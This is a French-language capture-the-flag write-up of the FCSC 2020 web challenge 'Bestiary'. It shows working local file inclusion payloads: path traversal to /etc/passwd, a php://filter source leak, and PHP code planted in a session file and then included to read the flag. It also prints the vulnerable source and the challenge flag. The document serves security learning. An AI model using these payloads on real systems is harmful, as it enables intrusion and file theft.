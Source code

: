 ```yaml
---
title: 📋 FCSC 2020 - Web - Bestiary
summary: Write-up du challenge web Bestiary du France Cybersecurity Challenge 2020
tags: ["CTF", "Web"]
categories: ["Write up"]
date: 2020-05-10T10:30:00+02:00
toc: false
---
```


![Challenge](fcsc_bestiary.PNG) 

Bestiary a été mon challenge préféré, l'exploitation de la LFI était très intéressante !  

C'est un site où l'on peut simplement effectuer des recherches sur des monstres.

![Home](fcsc_home.PNG) 

On devine assez rapidement que la paramètre 'monster' de la requête GET est à injecter.  
On test un payload classique pour voir s'il est possible d'avoir une LFI : 

```make
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=../../../../etc/passwd
```

![LFI](fcsc_lfi_etc.PNG)

On à donc une LFI :)  
On tente d'afficher le code source avec un filter PHP.

```make
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php
```

![Base](fcsc_bestiary_base.PNG)

On décode tout ça en base64 et on obtient le code source la page `index.php` :

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> 
    <input type="button" value="show description" onclick="show()">
    <div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

En analysant le code source, on remarque plusieurs choses intéressantes :
*	La fonction `strpos()` est utilisée pour vérifier que le payload ne contienne pas la chaîne de caractères "flag"
*	Le répertoire où sont stockées les sessions est spécifié "en dur" via la fonction `session_save_path()`, alors qu'habituellement, ces dernières sont stockées ...
*	Le flag est stocké dans le fichier `flag.php`

Pour accéder à une session, il faut rajouter le préfix `sess_` au numéro de session stockées dans notre navigateur.  
*Par exemple, j'avais la session c70091bbb2c30521812c43b37040255a, sur le serveur, la session est stockée dans le fichier /sessions/sess_c70091bbb2c30521812c43b37040255a*

![Session](fcsc_bestiary_session.PNG)

On peut voir le contenu de ma session sur la capture d'écran ci-dessus.   
Comme en PHP, tout fichier inclut via la fonction `include()` est traité comme un fichier PHP, on va pouvoir injecter du code PHP dans le cookie PHPSESSID afin de le faire exécuter au serveur lorsque l'on va accéder à la session.  

Je vais utiliser le payload suivant pour lire le fichier contenant le flag : 

```php
<?php var_dump(file_get_contents(base64_decode('ZmxhZy5waHA='))); ?>
```  

J'ai encodé le nom du fichier en base64 à cause de la fonction `strpos()` qui détecte si la chaîne "flag" est présente dans le paramètre GET 'monter'.   
J'injecte donc ce payload dans ma session en effectuant la requête suivante : 

```make
http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=%3C?php%20var_dump(file_get_contents(base64_decode(%27ZmxhZy5waHA=%27)));%20?%3E
```

À ce stage, il ne me reste plus qu'à inclure le fichier contenant les informations de ma session, afin que le code PHP soit exécuté.

```make
http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=sessions/sess_c70091bbb2c30521812c43b37040255a
```

On affiche les sources et voilà !  

![FLAG](fcsc_bestiary_flag.PNG)

Flag : 

```make
FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}
```